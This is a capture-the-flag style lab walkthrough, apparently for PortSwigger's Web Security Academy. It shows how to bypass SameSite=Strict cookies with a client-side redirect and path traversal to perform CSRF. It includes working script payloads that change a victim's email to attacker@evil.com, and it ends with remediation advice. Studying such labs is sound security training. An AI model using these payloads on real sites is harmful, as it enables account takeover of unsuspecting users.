

## Lab: SameSite Strict Bypass via Client-Side Redirect

### Objective
Perform a CSRF attack that changes the victim's email address by bypassing SameSite Strict cookie restrictions using a client-side redirect gadget.

### Credentials
| Username | Password |
|----------|----------|
| wiener | peter |

### Study the Change Email Function

In Burp's browser, log in to your own account and change your email address.

In Burp, go to the Proxy > HTTP history tab.

Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass any SameSite cookie restrictions.

Look at the response to your `POST /login` request. Notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

### Identify a Suitable Gadget

In the browser, go to one of the blog posts and post an arbitrary comment. Observe that you're initially sent to a confirmation page at `/post/comment/confirmation?postId=x` but, after a few seconds, you're taken back to the blog post.

In Burp, go to the proxy history and notice that this redirect is handled client-side using the imported JavaScript file `/resources/js/commentConfirmationRedirect.js`.

Study the JavaScript and notice that this uses the `postId` query parameter to dynamically construct the path for the client-side redirect.

In the proxy history, right-click on the `GET /post/comment/confirmation?postId=x` request and select Copy URL.

In the browser, visit this URL, but change the `postId` parameter to an arbitrary string:

```
/post/comment/confirmation?postId=foo
```

Observe that you initially see the post confirmation page before the client-side JavaScript attempts to redirect you to a path containing your injected string, for example, `/post/foo`.

Try injecting a path traversal sequence so that the dynamically constructed redirect URL will point to your account page:

```
/post/comment/confirmation?postId=1/../../my-account
```

Observe that the browser normalizes this URL and successfully takes you to your account page. This confirms that you can use the `postId` parameter to elicit a GET request for an arbitrary endpoint on the target site.

### Bypass the SameSite Restrictions

In the browser, go to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested.

**Initial Exploit Code:**

```html
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

Store and view the exploit yourself.

Observe that when the client-side redirect takes place, you still end up on your logged-in account page. This confirms that the browser included your authenticated session cookie in the second request, even though the initial comment-submission request was initiated from an arbitrary external site.

### Craft Exploit

Send the `POST /my-account/change-email` request to Burp Repeater.

In Burp Repeater, right-click on the request and select "Change request method". Burp automatically generates an equivalent GET request.

Send the request. Observe that the endpoint allows you to change your email address using a GET request.

Go back to the exploit server and change the `postId` parameter in your exploit so that the redirect causes the browser to send the equivalent GET request for changing your email address.

**Final Exploit Code:**

```html
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

Note that you need to include the `submit` parameter and URL encode the ampersand delimiter (`%26`) to avoid breaking out of the `postId` parameter in the initial setup request.

Test the exploit on yourself and confirm that you have successfully changed your email address.

Change the email address in your exploit so that it doesn't match your own.

Deliver the exploit to the victim. After a few seconds, the lab is solved.

### Complete Exploit Payload

```html
<script>
    document.location = "https://0abc00ef03f2a1a280b2f07d00c300ea.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=attacker@evil.com%26submit=1";
</script>
```

### Attack Flow Diagram

| Step | Action | Cookie Sent? |
|------|--------|--------------|
| 1 | Victim visits exploit server | N/A |
| 2 | Browser requests `/post/comment/confirmation?postId=1/../../my-account/change-email?email=attacker@evil.com&submit=1` | ❌ (SameSite Strict blocks cross-site) |
| 3 | Server returns confirmation page with client-side JavaScript | - |
| 4 | JavaScript redirects to `/post/1/../../my-account/change-email?email=attacker@evil.com&submit=1` | ✅ (Same-site redirect) |
| 5 | Browser normalizes URL to `/my-account/change-email?email=attacker@evil.com&submit=1` | ✅ (Cookie included) |
| 6 | Email address is changed | - |
| 7 | Lab is solved | - |

### Why This Works

- **First request** (to `/post/comment/confirmation`): Cross-site, no cookie sent (SameSite=Strict)
- **Second request** (client-side redirect): Same-site navigation, cookie IS sent
- The victim never sees the attack because both requests happen automatically

### Root Cause

| Component | Issue |
|-----------|-------|
| Session Cookie | SameSite=Strict (blocks initial cross-site request) |
| Client-side redirect | Open redirect gadget via `postId` parameter |
| Email change endpoint | Accepts GET requests, no CSRF tokens |
| Path traversal | Allows navigation to arbitrary endpoints |

### Remediation Recommendations

1. **Validate `postId` parameter** – use whitelist, reject path traversal sequences
2. **Use server-side redirects** instead of client-side dynamic redirects
3. **Add CSRF tokens** to email change endpoint
4. **Require POST method** for state-changing operations
5. **Implement proper redirect validation** – only allow whitelisted paths

### Tools Used
- Burp Suite (Proxy, Repeater, HTTP history)
### References
- PortSwigger Web Security Academy – CSRF (SameSite Strict Bypass)
- CWE-352: Cross-Site Request Forgery
- CWE-601: URL Redirection to Untrusted Site
